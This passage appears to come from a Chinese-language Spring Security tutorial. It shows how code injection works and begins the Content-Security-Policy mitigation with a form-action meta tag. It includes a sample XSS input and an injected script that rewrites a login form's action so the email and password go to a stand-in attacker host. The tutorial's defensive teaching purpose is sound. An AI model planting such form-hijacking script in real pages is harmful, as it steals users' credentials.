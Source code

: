 ### 3.2 代码注入

用户可以在提供用户输入的同时通过表单字段注入可疑代码。例如，假设一个文本框接收注册表单中的用户名。

用户可以输入<script\>alert("this is not expected")</script\>并提交表单。随后，当表单显示用户名时，它会执行脚本(在这种情况下会发出警告消息)。该脚本甚至可以加载可能造成更严重危害的外部脚本。

同样，假设我们的表单字段验证不足。用户可以利用这一点并将恶意JavaScript代码注入[DOM(文档对象模型)](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction)：

```html
<span> Session time out. Please login.</span>
<form id="login" action="/login">
    <input type="email" class="form-control" id="email">
    <input type="password" class="form-control" id="password">
    <button type="submit">Login</button>
</form>
<script>
    let form= document.forms.login;
    form.action="https://youaredoomed.com:9090/collect?u="+document.getElementById('email').value
        +"&p="+document.getElementById('password').value;
</script>
```

当用户点击登录按钮时，注入的JavaScript代码会将用户重定向到恶意站点。

当一个毫无戒心的用户提交表单时，他会被重定向到[https://youaredoomed.com](https://youaredoomed.com)并暴露他的凭据。

### 3.3 演示

让我们看看这个漏洞的实际情况。

通常，在会话超时后，服务器会将用户重定向到登录页面以输入他的凭据。但是，注入的恶意代码会将用户与用户的凭据一起重定向到一个意外站点：

<video src="/assets/images/2023/springsecurity/csp.mp4"></video>

## 4. Spring Security

在本节中，让我们讨论缓解这些代码注入漏洞的方法。

### 4.1 HTML meta标签

在前面的示例中添加Content-Security-Policy标头会阻止将表单提交到恶意服务器。因此，让我们使用<meta\>标签添加此标头并检查其行为：

```html
<meta http-equiv="Content-Security-Policy" content="form-action 'self';">
```

添加上述meta标签可防止浏览器将表单提交到其他源：
